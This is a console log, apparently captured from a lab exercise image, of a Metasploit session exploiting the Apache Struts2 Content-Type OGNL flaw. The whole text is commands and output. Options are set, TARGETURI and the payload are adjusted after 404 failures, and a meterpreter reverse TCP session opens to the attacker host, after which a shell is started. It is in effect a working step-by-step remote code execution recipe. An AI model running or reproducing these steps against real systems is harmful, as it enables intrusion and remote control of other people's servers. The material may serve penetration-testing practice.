 msf5 exploit(multi/http/struts2_content_type_ognl) > show options

Module options (exploit/multi/http/struts2_content_type_ognl):

   Name       Current Setting     Required  Description
   ----       ---------------     --------  -----------
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080                yes       The target port (TCP)
   SSL        false               no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /struts2-showcase/  yes       The path to a struts application action
   VHOST                          no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.69.173     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal


msf5 exploit(multi/http/struts2_content_type_ognl) > set rport 80
rport => 80
msf5 exploit(multi/http/struts2_content_type_ognl) > set rhost 10.10.56.94
rhost => 10.10.56.94
msf5 exploit(multi/http/struts2_content_type_ognl) > exploit

[*] Started reverse TCP handler on 10.10.69.173:4444 
[*] Sending stage (3012516 bytes) to 10.10.56.94
[-] Exploit aborted due to failure: bad-config: Server returned HTTP 404, please double check TARGETURI
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/struts2_content_type_ognl) > show options

Module options (exploit/multi/http/struts2_content_type_ognl):

   Name       Current Setting     Required  Description
   ----       ---------------     --------  -----------
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.56.94         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                  yes       The target port (TCP)
   SSL        false               no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /struts2-showcase/  yes       The path to a struts application action
   VHOST                          no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.69.173     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal


msf5 exploit(multi/http/struts2_content_type_ognl) > run

[*] Started reverse TCP handler on 10.10.69.173:4444 
[-] Exploit aborted due to failure: bad-config: Server returned HTTP 404, please double check TARGETURI
[*] Sending stage (3012516 bytes) to 10.10.56.94
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/struts2_content_type_ognl) > check
[*] 10.10.56.94:80 - Cannot reliably check exploitability.
msf5 exploit(multi/http/struts2_content_type_ognl) > set TARGETURI /showcase.action
TARGETURI => /showcase.action
msf5 exploit(multi/http/struts2_content_type_ognl) > search linux/x86/meterpreter/reverse_tcp

Matching Modules
================

   #  Name                                            Disclosure Date  Rank    Check  Description
   -  ----                                            ---------------  ----    -----  -----------
   0  payload/linux/x86/meterpreter/reverse_tcp                        normal  No     Linux Mettle x86, Reverse TCP Stager
   1  payload/linux/x86/meterpreter/reverse_tcp_uuid                   normal  No     Linux Mettle x86, Reverse TCP Stager


Interact with a module by name or index, for example use 1 or use payload/linux/x86/meterpreter/reverse_tcp_uuid

msf5 exploit(multi/http/struts2_content_type_ognl) > set PAYLOAD payload/linux/x86/meterpreter/reverse_tcp
PAYLOAD => linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/http/struts2_content_type_ognl) > show options

Module options (exploit/multi/http/struts2_content_type_ognl):

   Name       Current Setting   Required  Description
   ----       ---------------   --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.56.94       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                yes       The target port (TCP)
   SSL        false             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /showcase.action  yes       The path to a struts application action
   VHOST                        no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.69.173     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal


msf5 exploit(multi/http/struts2_content_type_ognl) > exploit

[*] Started reverse TCP handler on 10.10.69.173:4444 
[*] Sending stage (980808 bytes) to 10.10.56.94
[*] Meterpreter session 1 opened (10.10.69.173:4444 -> 10.10.56.94:36278) at 2022-11-07 05:27:59 +0000

meterpreter > shell
Process 54 created.
Channel 1 created.

